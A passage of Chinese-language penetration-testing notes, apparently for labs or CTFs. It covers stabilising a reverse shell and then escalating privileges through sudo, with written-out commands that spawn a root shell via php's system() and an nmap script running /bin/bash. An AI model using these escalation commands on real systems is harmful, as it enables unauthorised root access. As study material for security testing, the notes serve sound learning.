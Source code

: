   再点击键盘 `Crtl Z` 挂到后台

  再挂到前台

  ```bash
  └─# stty raw -echo; fg
  ```

  再点击键盘 `Enter` 

  于是操作手感就上来了



## sudo提权

```bash
sudo -l
```

### php

<img src=".\图片\20210628164717573.png" alt="20210628164717573" style="zoom:80%;" />

参照大博客https://blog.csdn.net/qq_45924653/article/details/108466845

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

### nmap

```bash
echo "os.execute('/bin/bash')" > getshell
sudo nmap --script=getshell
```

### /etc/sudoers
